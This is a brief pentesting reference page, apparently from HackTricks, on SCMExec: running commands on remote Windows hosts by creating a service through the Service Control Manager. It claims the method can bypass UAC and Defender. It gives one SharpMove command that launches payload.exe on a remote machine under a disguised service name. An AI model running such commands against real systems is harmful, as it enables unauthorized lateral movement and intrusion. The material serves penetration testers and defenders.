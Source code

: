 # DCOM Exec

{{#include ../../banners/hacktricks-training.md}}

## SCM

**SCMExec** is a technique to execute commands on remote systems using the Service Control Manager (SCM) to create a service that runs the command. This method can bypass some security controls, such as User Account Control (UAC) and Windows Defender.

## Tools

- [**https://github.com/0xthirteen/SharpMove**](https://github.com/0xthirteen/SharpMove):

SharpMove.exe action=scm computername=remote.host.local command="C:\windows\temp\payload.exe" servicename=WindowsDebug amsi=true

{{#include ../../banners/hacktricks-training.md}}